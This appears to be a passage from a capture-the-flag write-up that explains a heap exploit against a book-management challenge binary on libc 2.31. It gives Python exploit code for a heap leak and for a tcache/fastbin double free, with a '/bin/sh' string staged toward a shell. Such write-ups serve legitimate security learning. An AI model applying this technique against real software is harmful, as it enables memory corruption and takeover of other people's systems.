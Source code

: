 Heap leak
```python
for i in range(0,6):
    delete_book(i)
delete_book(6)
create_invalid_book(15,b'abcd',20,-1)

heapleak = u64(leak(15)[:-1].ljust(8,b'\x00'))
```

Once we have this information we can force a double free. However since this is libc 2.31, Tcache bins are pretty hardened against double frees.

But fastbins aren't.

We can fill up tcache bins, then force the next frees to be in fastbins. Here we create our double free.

Once the double free has been created, we start allocating back the chunks, to remove the bins.

This causes TCache to notice that there a fastbin chunks, which fit inside of it now, and it moves the fastbin ptrs directly into the tcache bin without any checks.

We now have a double free inside of the tcache bins.

In practice this requires us to:

1. Alloc 7 books with desc_len of 0x68
2. Create a book with a desc_len of 0x28 and fill it with ptrs to the next chunk that will be allocated
3. Edit the book and set the desc_len to 0x68 (this is the chunk we point to in step 2)
4. Create an invalid book which causes us to use the stuff we prepared in step 2.
5. Create another random book of size 0x68. This one is just so we don't get caught fastbin duping
6. Delete the 7 first books allocated
7. Edit the invalid book and set it to another size (in this case I set it to 0x88). This causes the desc we allocated in step 3 to be freed.
8. Free the book from step 5 and then the book from step 2.
9. You have now caused a double free!   

In practice the code looks like this:
```python
for i in range(0,7):
    create_book(i,b'abcd',20,b'Q'*0x68,0x68)



create_book(7,b'fastbin1',20,p64(heapbase+0xc20)*8,0x28)
edit_book(7,b'fastbin1',20,b'L'*0x68,0x68)
create_invalid_book(13,b'abcd',20,-1)
# edit_book(8,b'abcd',20,b'Q',0x88)

create_book(9,b'fastbin2',20,b'V'*0x68,0x68)


for i in range(0,7):
    delete_book(i)

edit_book(13,b'abcd',20,b'/bin/sh\x00',0x88)

delete_book(9)
delete_book(7)
```
